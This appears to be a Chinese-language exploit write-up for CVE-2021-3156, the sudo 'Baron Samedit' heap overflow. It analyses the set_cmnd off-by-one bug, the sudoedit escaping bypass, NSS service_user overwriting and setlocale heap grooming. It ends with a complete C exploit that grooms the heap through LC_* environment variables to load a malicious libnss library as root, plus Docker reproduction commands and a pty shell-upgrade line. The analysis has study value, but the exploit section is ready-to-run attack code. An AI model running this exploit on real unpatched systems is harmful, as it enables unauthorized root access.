







# CVE-2021-3156


### 漏洞描述
1.9.5p2之前的Sudo包含一个off-by-one错误，该错误可能导致基于堆的缓冲区溢出，这允许通过sudoedit -s和以单个反斜杠字符结尾的命令行参数将权限提升到root。关于此漏洞的详细信息请参阅下表。关于此漏洞的更多信息，请参阅阿里云漏洞库和NVD：

| **描述项** | **具体值** |
| :---: | :---: |
| CVE编号 | CVE-2021-3156 |
| NVD评分 | 7.8 |
| 披露时间 | 2021-01-27 |
| 漏洞类型 | 堆缓冲区溢出、Off-by-one错误、跨界内存写 |
| 漏洞危害 | 本地提权 |
| 影响范围 | 1.8.2＜sudo＜1.8.31p2、1.9.0＜sudo＜1.9.5p1 |


#### POC 验证
```bash
sudoedit -s '\' `python3 -c "print('A'*80)"`

# sudoedit：作用类似于 sudo vim，sudoedit 会使用用户的默认编辑器来打开指定文件
# -s：开启一个 shell
# '\'：转义字符
# python3 -c "print('A'*80)"： 生成80个A
```




## 堆溢出点


溢出函数（sudo-1.8.21/pluguns/sudoers.c/set_cmnd）

以下代码错误地处理了以 \ 结尾的参数，导致循环复制时越过了字符串边界(\0)，从而将后续内存中的大量数据（命令行中生成的80个'A'）写入了 user_args 的缓冲区，引发了溢出。

```c
if (NewArgc > 1) {
	    char *to, *from, **av;
	    size_t size, n;


	    for (size = 0, av = NewArgv + 1; *av; av++)		# 遍历命令行参数   NewArgv[0]: "sudoedit"、NewArgv[1]: "-s"、NewArgv[2]: \、NewArgv[3]: "AAAAAAAAAAAAAAAAA..."、NewArgv[4]: NULL (数组结束)
    		size += strlen(*av) + 1;					# 计算每个参数字符串的长度 (strlen)，并+1，这个1就是参数之间的空格或者命令行最后的\0结束符
	    if (size == 0 || (user_args = malloc(size)) == NULL) {			#为user_args在堆上分配空间
		sudo_warnx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
		debug_return_int(-1);
	    }
	    if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
        #若sudo为shell，进入以下代码
		for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
		    while (*from) {
			if (from[0] == '\\' && !isspace((unsigned char)from[1]))		#如果当前字符from[0]是一个'\'，并且下一个字符不为空
			    from++;														# 跳过\0结束符
			*to++ = *from++;												# 将A复制到user_args缓冲区
		    }
		    *to++ = ' ';
		}
		*--to = '\0';
	    } else {							# 若sudo不是shell模式则走else
		for (to = user_args, av = NewArgv + 1; *av; av++) {
		    n = strlcpy(to, *av, size - (to - user_args));
		    if (n >= size - (to - user_args)) {
			sudo_warnx(U_("internal error, %s overflow"), __func__);
			debug_return_int(-1);
		    }
		    to += n;
		    *to++ = ' ';
		}
		*--to = '\0';
	    }
	}
    }
```


漏洞函数讲解：

外层 for 循环 - 第一次迭代 (处理参数 `"-s"`)

1. `from = *av;`->`from`指向`"-s"`。
2. 内层`while (*from)`循环开始：
    - 它会一个一个地复制`'-'`和`'s'`到`user_args`缓冲区。
    - 这个过程是正常的，没有触发任何特殊逻辑。
    - 循环结束后，代码会向`user_args`追加一个空格。
3. 外层`for`循环结束本次迭代，`av++`，现在`av`指向`NewArgv[2]`，也就是`\`。

`user_args` 缓冲区现在的内容: `"-s "`

外层 for 循环 - 第二次迭代 (处理参数 `\` - 漏洞触发点!)

1. `from = *av;` -> `from` 现在指向 `\`。
2. 内层 `while (*from)` 循环开始。当前 `*from` 的值是 `'\\'`，不是 `\0`，所以循环体执行。
3. **进入 **`**if**`** 判断: **`**if (from[0] == '\\' && !isspace((unsigned char)from[1]))**`
    - `from[0] == '\\'`->**True**。当前字符确实是反斜杠。
    - `!isspace((unsigned char)from[1])`->**这是最关键的一步！**
        * `from[1]`是什么？它是在内存中紧跟在`\`后面的那个字符。根据我们上面的内存布局图，它就是字符串`\`的结束符`\0`。
        * `isspace('\0')`这个函数会返回`false`（因为空字符不被视为空格、制表符等）。
        * 所以`!isspace(...)`的结果是`!false`->**True**。
    - 整个`if`条件`(True && True)`结果为**True**。
4. `**if**`** 语句体被执行: **`**from++;**`
    - `from` 指针向后移动了一位。它**越过**了 `\` 字符串的结束符 `\0`，现在指向了下一个字符串（那80个'A'）的第一个 `'A'`！
5. **执行 **`***to++ = *from++;**`
    - `*from`当前是`'A'`。这个`'A'`被复制到`user_args`缓冲区。
    - `to`和`from`指针都向后移动。
6. **内层 **`**while**`** 循环继续**
    - 下一次循环的条件检查`while (*from)`:`*from`现在是第二个`'A'`，不是`\0`，循环继续！
    - 这个`while`循环**根本不会停止**！它会一直复制，把所有的80个'A'都复制到`user_args`缓冲区中。
    - 不仅如此，在复制完80个'A'和它的 `\0` 之后，如果 `from` 指针后面还有其他数据（比如环境变量），它会继续复制下去，直到在内存中遇到一个 `\0` 字节为止。


### 如何进入set_cmnd 漏洞函数


要触发漏洞，我们需要sudo处于shell模式（例如sudo -s），这样set_cmnd()里的漏洞代码才会被执行。

#### 若直接使用 sudo -s
```c
File: plugins\sudoers\sudoers.c
            ...
     if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) { //需要满足标志位的设置才能进入转义的流程
            ...
      if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) { //需要满足标志位的设置才能进入转义的流程
想要获得MODE_SHELL的标志位，则需要设置-s参数，此时通过 SET(flags, MODE_SHELL)，将flag设置上MODE_SHELL，并且默认的mode是为NULL，因此设置-s参数可以使得flag即设置MODE_SHELL又设置MODE_RUN。
File: src\parse_args.c
   case 's':
       sudo_settings[ARG_USER_SHELL].value = "true";
       SET(flags, MODE_SHELL);
       break;
            ...
  if (!mode)
      mode = MODE_RUN;  /* running a command */
     }
```

使用 sudo -s 会导致 flag 即设置MODE_SHELL又设置MODE_RUN，会进入parse_args函数，该函数会将所有非字母数字的字符前方增加一个'\'，会把我们用于触发漏洞的\转义成\\，这样漏洞就无法触发了。


#### 绕过 parse_args 转义函数
```c
/src/parse_argsc.文件中parse_args转义代码的条件如454行，/plugins/sudoers.c文件中set_cmnd反转义条件如757和796行。
454: if (ISSET(mode, MODE_RUN) && ISSET(flags, MODE_SHELL)) {
757: if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) {
796: if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
```

若使用sudoedit调用，程序会给mode设置MODE_EDIT，同时-s 参数会设置 MODE_SHELL。重要的是，MODE_RUN 不会被设置，程序不会经过parse_args 函数。


## 可利用堆块分析


现在程序中存在一个明显的堆溢出漏洞，因此梳理一下堆溢出如何利用：

+ 找到一个堆块，该堆块的值会影响程序的执行流程，称之为**可利用堆块**
+ 找到可以随意**控制堆块位置**的操作，将**漏洞函数**申请的堆块部署在可利用堆块的上方，当堆溢出发生时，可以将可利用堆块的值改写为我们构造的值




### nss 分析（会调用不同的动态链接库）


nss（Name Service Switch）用于解析和获取不同类型的名称信息，例如如何通过用名称去获取用户信息，在sudo需要获取用户信息时则需要调用nss。


重点：在使用 nss 去获取信息的时候，其实是通过**不同的动态链接库**去执行相应的行为，这些库的文件名则存在于/etc/nsswitch.conf的配置文件中



以下为动态连接库的文件，比如 passwd 就会用到 libnss_compat.so；hosts 会用到 libnss_dns.so 和 libnss_files.so



在service_table 链表中装有 nss 中的 passwd、group、shadow、gshadow 等节点


#### 关键代码
nss 在加载这些动态链接库的时候需要依赖 nss_load_library 函数，首先查看漏洞利用的关键代码：

```c
static int
nss_load_library (service_user *ni)				# ni指针指向堆上service_user结构体，每个service_user表示一个NSS服务模块
{
  if (ni->library == NULL)				# 检查service_user结构体的library指针是否初始化			
    {
      static name_database default_table;
      ni->library = nss_new_service (service_table ?: &default_table,ni->name);			# 始化一个新的库描述结构体，并挂载到ni->library，传入的ni->name决定加载哪个服务，例如passwd对应libnss_compat.so
      if (ni->library == NULL)
	return -1;
    }

  if (ni->library->lib_handle == NULL)				# 检查service_user结构体的library是否被加载过，若没被加载过就会拼接字符串并执行dlopen
    {
      ··· ···
          # 动态加载库的字符串拼接过程 ： shlib_name = "libnss_" + ni->name + ".so" + __nss_shlib_revision
      __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name, "libnss_"), ni->name), ".so"),__nss_shlib_revision);

      ni->library->lib_handle = __libc_dlopen (shlib_name);			# 动态加载库
      ··· ···
      ··· ···
  }
}
```


关键利用点：

我们的目的是加载一个自己写的恶意的 libc 库，这个库 libc 库中包含提升到 root 权限的相关操作。

恶意的 libc 库需要被__libc_dlopen 函数触发，调用到__libc_dlopen 函数需要 service_use 结构体中的动态库句柄（ni->library->lib_handle）为 null，如果我们可以通过堆溢出到 ni 所在的堆块，将 ni->library 覆盖为 0 即可（因为 ni->library 为 0 会执行第一个 if，执行第一个 if 会调用nss_new_service 对 library 进行初始化，初始化的 lib_handle 必然为 null）。


```c
typedef struct service_user
{
  /* And the link to the next entry.  */
  struct service_user *next;
  /* Action according to result.  */
  lookup_actions actions[5];
  /* Link to the underlying library object.  */
  service_library *library;
  /* Collection of known functions.  */
  void *known;
  /* Name of the service (`files', `dns', `nis', ...).  */
  char name[0];
} service_user;

typedef struct name_database_entry
{
  /* And the link to the next entry.  */
  struct name_database_entry *next;
  /* List of service to be used.  */
  service_user *service;
  /* Name of the database.  */
  char name[0];
} name_database_entry;

typedef struct name_database
{
  /* List of all known databases.  */
  name_database_entry *entry;
  /* List of libraries with service implementation.  */
  service_library *library;
} name_database;
```


### 漏洞利用梳理：
在用户执行sudoedit命令的时候，由于set_cmnd函数校验不严格导致用户输入可以绕过字符边界校验造成user_args堆溢出，接着我们分析到sudoedit在解析的时候会调用nss相关函数，而nss其实就是通过加载不同的动态链接库执行相应操作，那么我们可以通过user_args堆溢出覆盖service_user->library进行库描述结构体初始化操作，并且修改service_user->name来构造一个恶意的动态链接库，这个恶意的动态链接库会被__libc_dlopen函数加载并提权至root。


现在我们已经找到了可以利用的堆块，接下来我们需要构造堆布局，将可以发生溢出的堆（user_argv）布局到可利用堆块堆（service_user)的低地址处。


## 堆布局分析
已知使用环境变量LC_ALL 在setlocale 函数中完成的堆布局，经过分析，setlocale 中有非常多的堆申请和释放操作，所以这里我们重点关注我们可操作的部分。

glibc/locale/setlocale.c : 218

```c
char *
setlocale (int category, const char *locale)
{
  char *locale_path;
  size_t locale_path_len;
  const char *locpath_var;
  char *composite;

  ··· ···
      
  locale_path = NULL;
  locale_path_len = 0;

  ··· ···

  if (category == LC_ALL)
    {
      ··· ···
      ··· ···
      /* Load the new data for each category.  */    
      while (category-- > 0)
	if (category != LC_ALL)
	  {//关键处理函数 _nl_find_locale
	    newdata[category] = _nl_find_locale (locale_path, locale_path_len,
						 category,
						 &newnames[category]);

	    if (newdata[category] == NULL)
	      {//返回null 则会跳出循环
		···
		break;
	      }

	    ··· ···

	    /* Make a copy of locale name.  */
	    if (newnames[category] != _nl_C_name)
	      {
		if (strcmp (newnames[category],
			    _nl_global_locale.__names[category]) == 0)
		  newnames[category] = _nl_global_locale.__names[category];
		else
		  {
            //这个strdup 很关键
		    newnames[category] = __strdup (newnames[category]);
		    if (newnames[category] == NULL)
		      break;
		  }
	      }
	  }

      /* Create new composite name.  */
      composite = (category >= 0
		   ? NULL : new_composite_name (LC_ALL, newnames));
      if (composite != NULL)
	{
        ··· ···
	}
      else
	for (++category; category < __LC_LAST; ++category)//校验
	  if (category != LC_ALL && newnames[category] != _nl_C_name
	      && newnames[category] != _nl_global_locale.__names[category])
        //这个free 很关键，这里是一处循环free，可以集中free 一堆chunk
	    free ((char *) newnames[category]);

      /* Critical section left.  */
      __libc_rwlock_unlock (__libc_setlocale_lock);

      /* Free the resources.  */
      free (locale_path);
      free (locale_copy);

      return composite;
    }
	
    ··· ···
    ··· ···
	  
}
libc_hidden_def (setlocale)
```


setlocale 函数是关于一些语言环境有关的，相关环境变量参数有以下几种：

```c
#define __LC_CTYPE		 0
#define __LC_NUMERIC		 1
#define __LC_TIME		 2
#define __LC_COLLATE		 3
#define __LC_MONETARY		 4
#define __LC_MESSAGES		 5
#define __LC_ALL		 6
#define __LC_PAPER		 7
#define __LC_NAME		 8
#define __LC_ADDRESS		 9
#define __LC_TELEPHONE		10
#define __LC_MEASUREMENT	11
#define __LC_IDENTIFICATION	12
```


根据传入参数 category 的值来去环境变量中寻找对应的参数采取行动。在sudo 中使用的是 setlocale(LC_ALL,""); 当传入参数是LC_ALL 时，会从 LC_IDENTIFICATION 开始向前遍历所有的变量。对于每一个调用 _nl_find_locale 函数，这个函数里面比较复杂，但返回的 newnames[category] 其实就是对应环境变量的值，会在接下来调用strdup 函数将该字符串拷贝到堆上。由于传入的是LC_ALL ，那么会生成一个对应的字符串数组，接下来会和全局变量默认值进行一次校验，如果校验失败，那么就会将其释放(很容易构造出失败的输入)。


换言之，我们可以通过操作在这里进行x次strdup 的堆申请与x 次的free 刚申请的chunk。

根据输入的环境变量的值进行strdup 操作，最后会将strdup 生成的多个chunk 一口气free 掉。


### 漏洞利用梳理：
1. setlocale()函数的行为可以被环境变量（如LC_ALL, LC_CTYPE等）影响。通过设置大量特定长度的环境变量，可以在service_user结构体被分配之前，在堆上进行大量的malloc和free操作。这就像在下棋前预先排布好棋子，通过这些操作，在堆内存中“雕刻”出我们想要的布局：即在即将分配service_user结构体的位置旁边，留下一个大小合适的、空闲的内存块（chunk）。
2. 当轮到漏洞函数set_cmnd()为user_args申请内存时，我们通过控制命令行参数的长度，使其申请的内存大小恰好等于我们预留的那个空闲内存块的大小。ptmalloc分配器就会把这块内存分配给user_args。如此一来，user_args的缓冲区就完美地坐落在了service_user结构体的前面，接下来的 user_args 堆精确溢出覆盖 service_user 结构体的 service_user->library 和 service_user->name


如果能够在service_table初始化之前，在堆的前面留下多个0x20大小的堆，并在较远处留下0x40大小的堆，就正好将name_database_entry以及service_user结构体分开较大距离，方便溢出，并在user_args分配前将靠近service_user前面的堆释放，留给user_args获取，这样就能完美构造堆溢出的条件。


## EXP 实战
### 堆布局思路



1. 由于1246chunk 都是0x20大小的chunk，空间太小，不关注。
2. 关注 3，5 号chunk 和7号chunk之间如何插入一个大小特别的0xX0 的chunk(不会在 user_args chunk 申请之前被消耗掉)。大致如图：



整个堆布局过程中参与的chunk 都是setlocale 申请的内存

3. 所以最终我们的思路就是在setlocale申请两个0x40 大小的chunk，再申请一个0xa0大小的chunk(即上面提到的0xX0的chuank)，再申请一个0x40的chunk，这样会按照相反的顺序释放，然后再nss_parse_file 函数中会按照相同的顺序申请，并且，在nss_parse_file 函数中 getline 会申请0x80 的chunk 将我们预留的 0xa0 chunk "保护" 起来


### 计算
计算被移除 chunk 和溢出 chunk 之间的距离



0x5576b5ac7000-0x5576b5ac69b0=0x650


可以将输入参数总共0xa0 分成两个部分 x 个`**\\**` (每个是一个独立字符串，占两个字节) 和一个`**'a' * y**` (y个字符a是一个字符串，占y+1字节)，2x+y = 0xa0-0x10 (这里0xa0-0x10是因为我们的 user_args chunk 是0xa0大小，但实际申请需要减 0x10)，最后的命令形如 ：

```plain
sudoedit -s \\ \\ \\ ...(x个)... \\ "aaaa...(y个)...aaa"
```

计算x， y使：

```plain
(x+y)+(x+y)+(x+y+1)+(x+y-2)+... ...+(y+1) 刚好 < 0x650 
2x+y = 0xa0-0x10
```

第一个等式的原理就是，由于输入有多个`**\\**`所以每次拷贝都会溢出，每次溢出会比上次少1字节，所以等差数列相加。化简得到：

```plain
(x+y)+(x+2y+1)·x/2=0x650
2x+y = 0x90
```

解得：

```plain
x=11
y=121
```

最后通过sudoedit 参数可以溢出的长度是0x5f9，剩下的部分用环境变量中的 `**\\**` 补齐即可。环境变量只会拷贝一次。最后覆盖结构体的时候注意，so名字符串在结构体偏移0x30的位置，字符串前的结构体元素都要覆盖成 `**\x00**` 。


### 最终 EXP
```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include<math.h> // 用于 sqrt 函数
#include<unistd.h> 

/*
 * 这些是 glibc 定义的区域设置类别宏。
 * 漏洞利用代码使用这些宏对应的环境变量名（如 "LC_CTYPE"）
 * 来进行堆风水，因为 sudo 会处理这些环境变量，从而在堆上进行分配。
 */
#define __LC_CTYPE		 0
#define __LC_NUMERIC		 1
#define __LC_TIME		 2
#define __LC_COLLATE		 3
#define __LC_MONETARY		 4
#define __LC_MESSAGES		 5
#define __LC_ALL		 6
#define __LC_PAPER		 7
#define __LC_NAME		 8
#define __LC_ADDRESS		 9
#define __LC_TELEPHONE		10
#define __LC_MEASUREMENT	11
#define __LC_IDENTIFICATION	12

// 预定义的环境变量名称数组，用于堆风水操作
char * envName[13]={"LC_CTYPE","LC_NUMERIC","LC_TIME","LC_COLLATE","LC_MONETARY","LC_MESSAGES","LC_ALL","LC_PAPER","LC_NAME","LC_ADDRESS","LC_TELEPHONE","LC_MEASUREMENT","LC_IDENTIFICATION"};

// 全局变量，用于跟踪 envName 数组的当前索引
int now=13;
// 全局变量，用于跟踪我们已经创建的环境变量数量
int envnow=0;
// 全局变量，用于跟踪我们已经创建的命令行参数数量
int argvnow=0;

// 将要传递给 execve 的环境变量数组和命令行参数数组
char * envp[0x300];
char * argv[0x300];

/**
 * @brief 创建一个特定大小的环境变量，用于堆风水。
 * @param size 想要创建的堆块的数据区域大小。
 * @return 指向新创建的环境变量字符串的指针。
 *
 * 这是堆风水的核心函数。通过调用它，可以在堆上分配指定大小的内存块。
 */
char * addChunk(int size)
{
    now --; // 从 envName 数组的末尾向前选择一个环境变量名
    char * result;

    // LC_ALL (索引为6) 是一个特殊的环境变量，sudo 会对其有不同的处理。
    // 为了避免干扰我们精密的堆布局，这里直接跳过它。
    if(now == 6)
    {
        now --;
    }

    if(now >= 0)
    {
        // 分配足够的内存来存储 "NAME=C.UTF-8@AAAA..." 这样的字符串
        result = malloc(size + 0x20);
        // 构造环境变量字符串
        strcpy(result, envName[now]); // e.g., "LC_PAPER"
        strcat(result, "=C.UTF-8@");   // sudo 会处理这种格式的区域设置
        // 填充'A'字符，直到达到所需的总大小。
        // 这是为了精确控制 malloc 分配的堆块大小。
        for(int i = 9; i <= size - 0x17; i++)
            strcat(result, "A");
        
        // 将构造好的环境变量字符串添加到 envp 数组中
        envp[envnow++] = result;
    }
    return result;
}

/**
 * @brief 创建最后一个环境变量块，通常用作填充或标记。
 */
void final()
{
    now--;
    char * result;
    if(now == 6)
    {
        now--;
    }
    if(now >= 0)
    {
        result = malloc(0x100);
        strcpy(result, envName[now]);
        strcat(result, "=xxxxxxxxxxxxxxxxxxxxx"); // 内容不重要，只是为了占据一个堆块
        envp[envnow++] = result;
    }
}

/**
 * @brief 设置触发漏洞的命令行参数 (argv) 和用于精确定位的环境变量 (envp)。
 * @param size 目标 `user_args` 缓冲区的大小。
 * @param offset `user_args` 缓冲区与目标 `service_user` 结构体之间的预期距离。
 * @return 成功返回 0，失败返回 -1。
 *
 * 这是最复杂的部分。它通过数学计算来确定需要多少个'\'参数和多长的'A'参数，
 * 从而使 sudo 分配的 `user_args` 缓冲区大小恰好为 `size`，并且溢出时能覆盖到 `offset` 距离外的数据。
 */
int setargv(int size, int offset)
{
    size -= 0x10; // 减去 malloc chunk 的元数据大小 (通常是16字节)，得到用户数据区域的大小
    signed int x, y;

    // --- 以下部分是通过解一个复杂的方程来确定 x 和 y 的值 ---
    // x: 单独的 "\" 命令行参数的数量
    // y: 长字符串参数中 'A' 的数量
    // 目标是让 sudo 内部拼接这些参数后，总长度接近一个特定值，从而精确控制 `user_args` 的分配大小。
    // 这个方程源于对 sudo 参数处理逻辑的逆向工程。
    signed int a = -3;
    signed int b = 2 * size - 3;
    signed int c = 2 * size - 2 - offset * 2;
    signed int tmp = b * b - 4 * a * c;
    if(tmp < 0)
        return -1; // 无解
    tmp = (signed int)sqrt((double)tmp * 1.0);
    signed int A = (0 - b + tmp) / (2 * a);
    signed int B = (0 - b - tmp) / (2 * a);
    
    // 选择一个合适的正数解
    if(A < 0 && B < 0) return -1;
    if((A > 0 && B < 0) || (A < 0 && B > 0)) x = (A > 0) ? A : B;
    if(A > 0 && B > 0) x = (A < B) ? A : B;
    
    y = size - 1 - x * 2; // 根据 x 计算 y
    
    // `len` 是根据 sudo 的解析逻辑计算出的拼接后字符串的实际长度。
    // 我们需要微调 x, y 以确保溢出能精确命中目标。
    int len = x + y + (x + y + y + 1) * x / 2;
    while ((signed int)(offset - len) < 2)
    {
        x--;
        y = size - 1 - x * 2;
        len = x + y + (x + y + y + 1) * x / 2;
        if(x < 0) return -1;
    }

    // `envoff` 是需要填充的单字节环境变量的数量。
    // argv 和 envp 在内存中是连续的，利用这些小环境变量可以进行像素级的微调，
    // 以确保堆布局的精确性。
    int envoff = offset - len - 2 + 0x30;
    
    // 创建长字符串参数 "AAAA..."
    char * Astring = malloc(size);
    int i = 0;
    for(i = 0; i < y; i++)
        Astring[i] = 'A';
    Astring[i] = '\x00'; // null 结尾

    // --- 开始构建 argv 数组 ---
    argv[argvnow++] = "sudoedit"; // 命令本身
    argv[argvnow++] = "-s";       // 触发漏洞逻辑的参数
    for (i = 0; i < x; i++)
        argv[argvnow++] = "\\";   // x 个单独的'\'参数
    argv[argvnow++] = Astring;    // 长字符串参数
    argv[argvnow++] = "\\";       // **漏洞触发器**: 以单个'\'结尾的最后一个参数
    argv[argvnow++] = NULL;       // argv 数组以 NULL 结尾

    // --- 开始构建 envp 数组 ---
    // 添加用于微调内存位置的单'\'环境变量
    for(i = 0; i < envoff; i++)
        envp[envnow++] = "\\";
    
    // **核心Payload**: 这个环境变量将会被复制到溢出区域。
    // 当它覆盖 service_user->name 字段时，前面的'\\'和'\'参数在sudo处理时
    // 会留下一个 NULL 字节，恰好将 "X/test" 变成 "/test"。
    // sudo 最终会尝试加载 `libnss_/test.so`。
    envp[envnow++] = "X/test"; 
    
    return 0;
}

int main()
{
    // 1. 设置命令行参数和精调环境变量
    //    目标 `user_args` 缓冲区大小为 0xa0
    //    目标 `service_user` 结构体距离缓冲区 0x650 字节
    //    这些值是针对特定libc版本和系统架构调试出来的。
    setargv(0xa0, 0x650);

    // 2. 进行堆风水布局
    //    创建一系列特定大小的堆块来操纵 glibc 的 malloc 状态。
    //    目的是在 `sudo` 申请 `service_user` 结构体内存时，
    //    使其恰好分配在我们期望的位置 (即 `user_args` 缓冲区之后 0x650 字节处)。
    addChunk(0x40);
    addChunk(0x40);
    addChunk(0xa0); // 创建一个和 `user_args` 同样大小的"洞"，增加布局成功率
    addChunk(0x40);
    
    // 3. 添加最后一个环境变量块作为填充
    final();

    // 4. 执行 sudoedit，传入我们精心构造的 argv 和 envp
    //    此时，漏洞被触发，提权发生。
    execve("/usr/local/bin/sudoedit", argv, envp); // 注意：路径可能需要根据系统调整 (e.g., /usr/local/bin/sudoedit)
}

```


## docker 复现
```bash
docker pull chenaotian/cve-2021-3156 		#拉取镜像

docker run -it --name cve-3156 chenaotian/cve-2021-3156 /bin/bash			#启动容器
  run：创建并启动一个docker容器
  -it：交互式终端
  --name：给这个docker容器起一个名字
  /bin/bash：启动容器后执行/bin/bash进入ubuntu命令行终端
docker start -ai cve-3156			#再次运行该容器


进入docker环境中的root目录	
su test				#切换到普通用户
./exp					#执行exp
whoami				#变为root用户
id
```


命令行美化：

python3 -c "import pty;pty.spawn('/bin/bash')"


### 参考：
CTF Wiki：[https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/introduction/](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/introduction/)

CVE-2021-3165：

[https://blog.csdn.net/Palpitate_LL/article/details/147118881?sharetype=blog&shareId=147118881&sharerefer=APP&sharesource=qq_62554190&sharefrom=qq](https://blog.csdn.net/Palpitate_LL/article/details/147118881?sharetype=blog&shareId=147118881&sharerefer=APP&sharesource=qq_62554190&sharefrom=qq)

